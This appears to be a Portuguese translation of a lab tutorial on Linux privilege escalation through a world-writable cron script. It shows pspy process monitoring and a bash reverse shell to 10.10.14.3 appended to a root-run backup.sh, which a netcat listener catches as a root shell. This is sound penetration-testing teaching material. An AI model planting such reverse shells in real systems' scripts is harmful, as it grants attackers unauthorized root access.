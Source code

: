 Os cron jobs também podem ser definidos para serem executados uma vez (como na inicialização). Eles são normalmente usados ​​para tarefas administrativas, como executar backups, limpar diretórios, etc. O comando `crontab` pode criar um arquivo cron, que será executado pelo daemon cron no cronograma especificado.

Quando criado, o arquivo cron será criado `/var/spool/cron` para o usuário específico que o criou. Cada entrada no arquivo crontab requer seis itens na seguinte ordem: minutos, horas, dias, meses, semanas, comandos. Por exemplo, a entrada `0 */12 * * * /home/admin/backup.sh`seria executada a cada 12 horas.

Certos aplicativos criam arquivos cron no diretório `/etc/cron.d` e podem estar configurados incorretamente para permitir que um usuário não root os edite.

Primeiro, vamos dar uma olhada no sistema para ver se há arquivos ou diretórios graváveis. O arquivo `backup.sh` no diretório `/dmz-backups` é interessante e parece que pode estar sendo executado em um cron job.

```shell-session
NycolasES6@htb[/htb]$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>
```

Uma rápida olhada no diretório `/dmz-backups` mostra o que parecem ser arquivos criados a cada três minutos. Isso parece ser uma grande configuração incorreta. Talvez o administrador do sistema quisesse especificar a cada três horas como, `0 */3 * * *` mas em vez disso escreveu `*/3 * * * *`, que diz ao cron job para executar a cada três minutos. O segundo problema é que o `backup.sh`script de shell é mundialmente gravável e é executado como root.

```shell-session
NycolasES6@htb[/htb]$ ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
```

Podemos confirmar que um cron job está em execução usando [pspy](https://github.com/DominicBreuker/pspy) , uma ferramenta de linha de comando usada para visualizar processos em execução sem a necessidade de privilégios de root.

Podemos usá-la para ver comandos executados por outros usuários, cron jobs, etc. Ela funciona escaneando [procfs](https://en.wikipedia.org/wiki/Procfs) .

Vamos executar `pspy` e dar uma olhada. O sinalizador `-pf` diz à ferramenta para imprimir comandos e eventos do sistema de arquivos e `-i 1000` diz a ela para escanear [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) a cada 1000ms (ou a cada segundo).

```shell-session
NycolasES6@htb[/htb]$ ./pspy64 -pf -i 1000

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

<SNIP>
```

Na saída acima, podemos ver que uma tarefa cron executa o script `backup.sh` localizado no `/dmz-backups`diretório e cria um arquivo tarball do conteúdo do diretório `/var/www/html`.

Podemos olhar o script de shell e anexar um comando a ele para tentar obter um shell reverso como root. Se estiver editando um script, certifique-se de sempre fazer uma cópia do script e/ou criar um backup dele. Também devemos tentar anexar nossos comandos ao final do script para que ele ainda seja executado corretamente antes de executar nosso comando de shell reverso.

```shell-session
NycolasES6@htb[/htb]$ cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

Podemos ver que o script está apenas pegando um diretório de origem e destino como variáveis. Ele então especifica um nome de arquivo com a data e hora atuais do backup e cria um tarball do diretório de origem, o diretório raiz da web. Vamos modificar o script para adicionar um [Bash one-liner reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) .

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

Modificamos o script, criamos um `netcat`ouvinte local e esperamos. Com certeza, em três minutos, temos um shell root!

```shell-session
NycolasES6@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02
```

Embora não seja o ataque mais comum, encontramos tarefas cron mal configuradas que podem ser abusadas de tempos em tempos.

















